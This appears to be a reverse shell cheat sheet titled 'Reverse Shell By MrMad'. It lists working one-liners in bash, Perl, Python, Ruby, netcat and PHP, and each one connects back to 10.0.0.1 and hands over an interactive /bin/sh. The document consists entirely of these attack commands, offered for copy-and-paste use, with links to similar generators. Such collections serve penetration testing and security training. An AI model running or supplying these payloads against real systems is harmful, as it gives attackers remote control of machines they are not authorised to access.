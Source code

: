 - Reverse Shell By MrMad 

- refrence
- revshells generator
- https://www.revshells.com


```
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```


# BASH
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

# PERL
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

# PYTHON
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

# RUBY
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

# NETCAT
```
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
